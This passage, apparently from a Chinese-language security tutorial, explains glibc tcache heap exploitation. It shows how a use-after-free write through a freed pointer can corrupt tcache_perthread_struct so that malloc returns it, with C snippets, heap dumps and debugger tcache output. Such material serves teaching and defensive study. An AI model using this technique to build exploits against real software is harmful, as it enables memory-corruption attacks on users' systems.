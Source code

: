 调用`free(ptr)`后，将在`key`字段处初始化`tcache_perthread_struct`的地址，该字段与`ptr-&gt;b`重叠：

```
0x5555555592a0: 0x0000000000000000      0x0000555555559010
0x5555555592b0: 0x0000000000000000      0x0000000000000021
0x5555555592c0: 0x0000000000000000      0x0000000000000000
0x5555555592d0: 0x0000000000000000      0x0000000000000021
0x5555555592e0: 0x0000000000000000      0x0000000000000000
0x5555555592f0: 0x0000000000000000      0x0000000000020d11
```

如果攻击者能够在`free(ptr)`之后解引用并写入`ptr-&gt;b`，则可以通过将目标地址（0x0000555555558010）放在目标列表的开头来破坏管理结构：

```
0x555555559010: 0x0000000000000002      0x0000000000000000
0x555555559020: 0x0000000000000000      0x0000000000000000
0x555555559030: 0x0000000000000000      0x0000000000000000
0x555555559040: 0x0000000000000000      0x0000000000000000
0x555555559050: 0x0000000000000000      0x0000000000000000
0x555555559060: 0x0000000000000000      0x0000000000000000
0x555555559070: 0x0000000000000000      0x0000000000000000
0x555555559080: 0x0000000000000000      0x0000000000000000
0x555555559090: 0x0000555555558010      0x0000000000000000
```

### <a class="reference-link" name="%E9%87%8A%E6%94%BE%E7%AE%A1%E7%90%86%E7%BB%93%E6%9E%84"></a>释放管理结构

```
[...] 

        long int *a, *b, *z;
        struct hi *ptr = malloc(sizeof(ptr));

        ptr-&gt;a = malloc(10);
        ptr-&gt;b = malloc(10);


        free(ptr);
        free(ptr-&gt;a);
        free(ptr-&gt;b);

        a = malloc(0x285);

        [...]
```

在本例中，`tcache_perthread_struct`的地址传递给`free()`，然后放在tcache bin数组的索引39处（大小约为0x290的chunks）：

```
Tcachebins[idx=0, size=0x20] count=0  ←  Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE) 

Tcachebins[idx=39, size=0x290] count=1  ←  Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE)
```

随后调用`malloc()`就可以获得`tcache_perthread_struct`，如下演示中`a = malloc(0x285);`所做到的：
